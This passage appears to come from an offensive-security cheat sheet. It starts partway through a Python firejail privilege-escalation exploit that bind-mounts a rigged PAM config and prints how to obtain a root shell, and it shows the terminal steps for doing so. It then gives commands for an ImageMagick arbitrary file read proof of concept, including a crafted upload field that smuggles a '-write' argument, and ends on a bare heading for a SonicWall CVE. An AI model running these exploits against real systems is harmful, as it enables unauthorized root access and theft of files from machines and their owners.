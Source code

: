 ```python
            if not service.exists():
                continue
            # Bind mount over new "helpful" PAM config over the original
            bindMount(tf.name, service)

print(f"You can now run 'firejail --join={os.getpid()}' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.")

while True:
    line = sys.stdin.readline()
    if not line:
        break
```

#### First Terminal

```console
$ ./firejoin_py.bin
You can now run 'firejail --join=193982' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

#### Second Terminal

```console
$ firejail --join=193982
$ su
```

## CVE-2022-44268: ImageMagick Arbitrary File Read PoC

> https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

```console
$ sudo apt-get install pngcrush imagemagick exiftool exiv2
```

```console
$ pngcrush -text a "profile" "<FILE>" <FILE.png
```

```console
-----------------------------299057355710558143811161967686
Content-Disposition: form-data; name="srcFormat"

png:- -write uploads/<FILE>.png
```

### Decoding Output

> https://cyberchef.org/#recipe=From_Hex(%27Auto%27)

## CVE-2023-0126: SonicWall SMA1000 Pre-Authentication Path Traversal Vulnerability
